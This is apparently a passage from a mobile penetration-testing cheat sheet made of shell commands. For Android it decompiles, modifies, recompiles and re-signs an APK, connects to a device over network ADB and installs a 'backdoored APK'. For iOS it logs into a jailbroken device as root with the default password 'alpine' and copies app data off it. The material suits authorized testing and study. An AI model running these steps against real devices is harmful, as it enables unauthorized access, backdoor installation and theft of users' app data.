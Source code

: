 ### Android Application Analysis
```bash
# Decompile APK
apktool d application.apk

# Convert DEX to JAR
d2j-dex2jar classes.dex

# Analyze JAR file with JADX
jadx-gui application.jar

# Recompile modified APK
apktool b application -o modified.apk

# Sign the APK
keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore modified.apk alias_name
```

### Android Vulnerability Exploitation
```bash
# Check for ADB over network
adb connect 192.168.1.11:5555

# Install backdoored APK
adb install -r malicious.apk

# Launch application
adb shell am start -n package.name/package.name.MainActivity
```

## iOS Target Exploitation

### iOS Reconnaissance (Requires Jailbroken Device)
```bash
# Connect to device via SSH (default password: alpine)
ssh root@192.168.1.12

# Get device information
uname -a
system_profiler

# List installed applications
ls -la /var/containers/Bundle/Application/

# Extract app data
scp -r root@192.168.1.12:/var/containers/Bundle/Application/[APP_UUID] ./
```
